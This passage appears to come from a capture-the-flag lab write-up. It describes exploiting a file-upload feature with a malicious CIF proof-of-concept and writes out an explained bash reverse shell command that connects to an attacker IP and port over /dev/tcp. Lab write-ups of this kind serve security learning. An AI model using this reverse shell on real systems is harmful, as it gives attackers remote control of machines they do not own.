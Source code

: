 
##### This Github shows a POC file that we can use to gain a reverse shell from the upload feature, by replacing 'touch pwned' with the reverse shell command.
<br>

#### File Creation

![vuln_cif_file](./images/vuln_cif_file.png)


##### My go-to for creating reverse shells is revshells.com. In this case, I went with an interactive bash shell since this is a Linux box. Initially, my shell would not work, but with some trial and error, the following is what I came up with: 
##### '/bin/bash /c 'exec /bin/bash -i &>/dev/tcp/10.10.14.12/4444 <&1'

##### It runs /bin/bash -c '' where inbetween the quotes you can put a command that will be executed. 'exec' replaces the current process running with the command following, in this case, "/bin/bash -i" which launches an interactive bash shell. "&>/dev/tcp/10.10.14.12/4444" is used to redirect standard output and standard error to the newly created network connection (reverse shell to your IP/Port). "<&1" effectively links the victim's shell input with the attacker's output.
<br>

#### Exploit
